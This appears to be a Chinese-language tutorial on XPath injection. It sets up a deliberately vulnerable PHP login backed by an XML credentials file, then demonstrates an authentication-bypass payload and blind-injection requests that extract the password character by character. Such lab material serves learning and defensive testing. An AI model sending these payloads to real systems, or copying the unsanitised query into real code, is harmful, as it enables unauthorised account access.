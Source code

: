 **1、什么是xpath注入**

XPath是一种查询语言，它描述了如何在XML文档中查找特定元素（包括属性、处理指令等）。既然是一种查询语言，XPath在一些方面与SQL相似，不过，XPath的不同之处在于它可以用来引用XML文档的几乎任何部分，而不受访问控制限制。在SQL中，一个“用户”（在XPath/XML上下文中未定义的术语）的权限被限制在一个特定的数据库，表，列或者行。使用XPath注入攻击，攻击者可以修改XPath查询语句来执行所选择的操作

XPath盲注攻击可以从一个使用不安全方式嵌入用户信息的应用中提取数据。在输入未被过滤的情况下，攻击者可以提交并执行有效的XPath代码。这种类型的攻击适用于以下情况：攻击者不清楚XML文档的架构，或者错误消息被抑制，一次只能通过布尔化查询来获取部分信息，就像SQL盲注一样。

**2、案例**

xpath_user.xml 文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<users>
<user id="1" username="admin" password="admin"></user>
<user id="2" username="root" password="admin"></user>
<user id="3" username="system" password="system"></user>
</users>
```

漏洞测试文件xpath.php

```php+HTML
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8">
		<title></title>
	</head>
	<body>
			<form method="POST">
				用户名：<input type="text" name="username"><br>
			 	密码：<input type="password" name="password"><br>
			 	<input type="submit" value="登录" name="submit">
			</form>
	</body>
</html>

<?php
if(file_exists('xpath_user.xml')){
	$xml=simplexml_load_file('xpath_user.xml');
	if($_POST['submit']){
		$username=$_POST['username'];
		$password=$_POST['password'];
		$sql="//user[@username='{$username}' and @password='{$password}']";
		$resulit = $xml->xpath($sql);
		if(count($resulit)==0){
			echo '登录失败';
		}else{
			echo "登录成功";
		}
	}	
	}
?>
```

```bash
$sql="//user[@username='{$username}' and @password='{$password}']";
select * from users where username=’username’ and password=’password’
```

**4、注入方法**

万能密码登录 **admin' or '1'='1**

```bash
username=admin' or '1'='1 &password=xxxxxxxxxxx&submit=submit
```

![image-20210426002213544](../acess/image-20210426002213544.png) 

**5、盲注入**

string-length()获取字符长度
substring 截取字符

```bash
username=admin'and string-length(@password)=5 or '1'='1&password=0&submit=submit
```

返回正确是就等于登录成功

先获取第一个字符

```bash
username=admin'and substring(@password,1,1)='a' or '1'='1&password=0&submit=submit
```

![image-20210426002700785](../acess/image-20210426002700785.png) 

 再获取第二个![image-20210426002752235](../acess/image-20210426002752235.png)

依次类推，获得密码admin